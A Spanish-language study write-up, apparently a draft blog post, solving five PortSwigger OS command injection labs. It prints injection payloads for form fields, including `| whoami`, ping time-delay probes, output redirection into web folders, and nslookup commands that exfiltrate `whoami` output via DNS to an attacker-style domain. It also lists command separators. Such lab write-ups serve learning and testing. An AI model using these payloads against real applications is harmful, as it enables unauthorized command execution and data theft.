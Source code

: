 ```yaml
---
title: Inyeccion de comandos
date: '2024-05-09'
lastmod: '2023-08-05'
tags: ['Portswigger', 'Injection', 'Labs']
draft: true
summary: 'La inyección de comandos permite a un atacante ejecutar comandos del sistema operativo (OS) en el servidor que está ejecutando una aplicación, lo que generalmente compromete por completo la aplicación y sus datos.'
images: ['/static/images/htb/ewpt']
---
```


<p align="center">
  ![Portada](https://miro.medium.com/v2/resize:fit:640/format:webp/1*HapzmTCjNvXIff_AsOCIuw.png)
</p>

Mientras me preparo para la certificación eWPTX, voy a trabajar en los laboratorios de PortSwigger. En esta publicación, voy a "robar"... tomar notas sobre la inyección de comandos en el sistema operativo (OS) y resolver los laboratorios. ¡Vamos a empezar!

<TOCInline toc={props.toc} exclude="Introduccion" />

## ¿Qué es la inyección de comandos OS?

La inyección de comandos OS permite a un atacante ejecutar comandos del sistema operativo en el servidor que ejecuta una aplicación, lo que generalmente compromete completamente la aplicación y sus datos.

### Laboratorio 1 - Inyección de comandos OS, caso simple

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS en el verificador de stock de productos. La aplicación ejecuta un comando de shell que contiene los IDs de producto y tienda suministrados por el usuario, y devuelve la salida en bruto del comando en su respuesta. Para resolver el laboratorio, ejecuta el comando `whoami` para determinar el nombre del usuario actual.

Vamos a la página y hacemos clic en el botón "View Details".
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

Cuando hacemos clic en "Check Stock", se envía una solicitud con los parámetros `productId=1&storeId=2` a `/product/stock`.
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

Cambiamos `storeId=2` por ...

```bash
productId=1&storeId=| whoami
```

y nos muestra el nombre.
![Imagen 4](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Vulnerabilidades de inyección de comandos OS ciegas

### Detección de inyección de comandos OS ciegas usando retrasos de tiempo

Puedes usar un comando inyectado para activar un retraso de tiempo, permitiéndote confirmar que el comando se ejecutó según el tiempo que tarda la aplicación en responder. El comando `ping` es una buena forma de hacer esto, ya que te permite especificar el número de paquetes ICMP a enviar.

```
& ping -c 10 127.0.0.1 &
```

### Laboratorio 2 - Inyección de comandos OS ciegas con retrasos de tiempo

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. La salida del comando no se devuelve en la respuesta. Para resolver el laboratorio, explota la vulnerabilidad de inyección de comandos OS ciegas para causar un retraso de 10 segundos.

Vamos a la página de "Submit feedback".
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

En el formulario ponemos cualquier dato, lo enviamos y lo capturamos con Burpsuite.
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

Después de probar en todos los parámetros con la carga útil...

```
| ping -c 10 127.0.0.1 &
```

Codificado en URL...

```
|+ping+-c+10+127.0.0.1+%26
```

¡Vemos un retraso de 9,440 milisegundos! 🥳
![Imagen 4](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

### Explotando la inyección de comandos OS ciegas redirigiendo la salida

Puedes redirigir la salida del comando inyectado a un archivo. El carácter `>` envía la salida del comando `whoami` al archivo especificado. Por ejemplo:

```
& whoami > /var/www/static/whoami.txt &
```

### Laboratorio 3 - Inyección de comandos OS ciegas con redirección de salida

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puedes usar la redirección de salida para capturar la salida del comando. Hay una carpeta escribible en: `/var/www/images/`. La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puedes redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de imágenes para recuperar el contenido del archivo. Para resolver el laboratorio, ejecuta el comando `whoami` y recupera la salida.

Mismo procedimiento que en el laboratorio anterior: vamos a la página de "Submit Feedback", llenamos el formulario, lo enviamos y capturamos la solicitud.
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

Buscamos el parámetro donde inyectar el comando:

```
| whoami > /var/images/www/quiensoy.txt &
```

![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

### Explotando la inyección de comandos OS ciegas usando técnicas OAST

Puedes usar un comando inyectado que desencadenará una interacción de red fuera de banda con un sistema que controles, utilizando técnicas OAST.

```
& nslookup kgji2ohoyw.web-attacker.com &
```

### Laboratorio 4 - Inyección de comandos OS ciegas con interacción fuera de banda

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. El comando se ejecuta de manera asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que puedas acceder. Sin embargo, puedes desencadenar interacciones fuera de banda con un dominio externo. Para resolver el laboratorio, explota la vulnerabilidad de inyección de comandos OS ciegas para realizar una consulta DNS a Burp Collaborator.

Mismo procedimiento 😮‍💨... Copia la URL de Burp Collaborator (¡Cómpralo! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```

¡Y voilà!
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

### Siguiente paso

El canal fuera de banda proporciona una forma sencilla de exfiltrar la salida de los comandos inyectados.

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

Esto provoca una consulta DNS al dominio del atacante que contiene el resultado del comando `whoami`:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

### Laboratorio 5 - Inyección de comandos OS ciegas con exfiltración de datos fuera de banda

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. El comando se ejecuta de manera asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que puedas acceder. Sin embargo, puedes desencadenar interacciones fuera de banda con un dominio externo. Para resolver el laboratorio, ejecuta el comando `whoami` y exfiltra la salida a través de una consulta DNS a Burp Collaborator. Deberás ingresar el nombre del usuario actual para completar el laboratorio.

🏃‍♀️ Ve a la página de "Submit Feedback", 🏃‍♀️ llena el formulario, 🏃‍♀️ envíalo, 🏃‍♀️ captura la solicitud, copia el enlace de Burp Collaborator (¡CÓMPRALO! 😉⬇️)

```
| nslookup 'whoami'.blablablablabla.whatever.com &
```

![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Formas de inyectar comandos OS

Los siguientes separadores de comandos funcionan tanto en sistemas Windows como Unix:

```
&
&&
|
||
```

Unix

```
;
0x0a
\n
```

## Recursos

[Portswigger](https://portswigger.net/web-security/os-command-injection)

[HackTheBox](https://academy.hackthebox.com/module/details/109)

[INE](https://ine.com/blog/command-injection)
